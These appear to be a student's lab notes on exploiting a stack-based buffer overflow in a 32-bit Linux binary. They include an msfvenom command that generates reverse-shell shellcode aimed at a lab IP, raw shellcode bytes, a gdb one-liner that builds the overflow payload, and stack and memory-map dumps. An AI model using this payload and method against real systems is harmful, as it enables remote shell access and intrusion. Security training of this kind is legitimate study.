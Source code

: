 [[Stack-Based Buffer Overflows on Linux x86]]
bad carateres \x00\x09\x0a\x20

#### MSFvenom Syntax
```shell-session
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
```

#### MSFvenom - Generate Shellcode
```shell-session
msfvenom -p linux/x86/shell_reverse_tcp lhost=10.10.14.76 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode


```

#### Shellcode

```shell-session
cat shellcode

unsigned char buf[] = 
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
<SNIP>
```

"\xba\x2c\xa8\x04\xfd\xd9\xcd\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x12\x83\xed\xfc\x31\x55\x0e\x03\x79\xa6\xe6\x08\xb0\x6d\x11\x11\xe1\xd2\x8d\xbc\x07\x5c\xd0\xf1\x61\x93\x93\x61\x34\x9b\xab\x48\x46\x92\xaa\xab\x2e\x2f\x47\x42\xe2\x47\x55\x5a\x80\xfe\xd0\xbb\xc4\x67\xb3\x6a\x77\xdb\x30\x04\x96\xd6\xb7\x44\x30\x87\x98\x1b\xa8\x3f\xc8\xf4\x4a\xa9\x9f\xe8\xd8\x7a\x29\x0f\x6c\x77\xe4\x50"



#### Notes

```shell-session
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

#### Exploit with Shellcode
 ```shell-session
(gdb) run $(python -c 'print "\x55" * (2064 - 124 - 95 - 4) + "\x90" * 124 + "\xba\x2c\xa8\x04\xfd\xd9\xcd\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x12\x83\xed\xfc\x31\x55\x0e\x03\x79\xa6\xe6\x08\xb0\x6d\x11\x11\xe1\xd2\x8d\xbc\x07\x5c\xd0\xf1\x61\x93\x93\x61\x34\x9b\xab\x48\x46\x92\xaa\xab\x2e\x2f\x47\x42\xe2\x47\x55\x5a\x80\xfe\xd0\xbb\xc4\x67\xb3\x6a\x77\xdb\x30\x04\x96\xd6\xb7\x44\x30\x87\x98\x1b\xa8\x3f\xc8\xf4\x4a\xa9\x9f\xe8\xd8\x7a\x29\x0f\x6c\x77\xe4\x50" + "\x2e\xd7\xff\xff"')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()
```

Next, we check if the first bytes of our shellcode match the bytes after the NOPS.

#### The Stack
```shell-session
gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>
```

0xf7e729c8

#### Stack size:

stack size=0xffffe000 - 0xfffdd000 = 0x21000

```
(gdb) info proc all
process 2085
cmdline = '/home/htb-student/bow'
cwd = '/home/htb-student'
exe = '/home/htb-student/bow'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        0x56555000 0x56556000     0x1000        0x0 /home/htb-student/bow
        0x56556000 0x56557000     0x1000        0x0 /home/htb-student/bow
        0x56557000 0x56558000     0x1000     0x1000 /home/htb-student/bow
        0xf7ded000 0xf7fbf000   0x1d2000        0x0 /lib32/libc-2.27.so
        0xf7fbf000 0xf7fc0000     0x1000   0x1d2000 /lib32/libc-2.27.so
        0xf7fc0000 0xf7fc2000     0x2000   0x1d2000 /lib32/libc-2.27.so
        0xf7fc2000 0xf7fc3000     0x1000   0x1d4000 /lib32/libc-2.27.so
        0xf7fc3000 0xf7fc6000     0x3000        0x0 
        0xf7fcf000 0xf7fd1000     0x2000        0x0 
        0xf7fd1000 0xf7fd4000     0x3000        0x0 [vvar]
        0xf7fd4000 0xf7fd6000     0x2000        0x0 [vdso]
        0xf7fd6000 0xf7ffc000    0x26000        0x0 /lib32/ld-2.27.so
        0xf7ffc000 0xf7ffd000     0x1000    0x25000 /lib32/ld-2.27.so
        0xf7ffd000 0xf7ffe000     0x1000    0x26000 /lib32/ld-2.27.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
Name:   bow
Umask:  0002
State:  t (tracing stop)
Tgid:   2085
Ngid:   0
Pid:    2085
PPid:   2083
TracerPid:      2083
Uid:    1001    1001    1001    1001
Gid:    1001    1001    1001    1001
FDSize: 64
Groups: 1001 
NStgid: 2085
NSpid:  2085

```

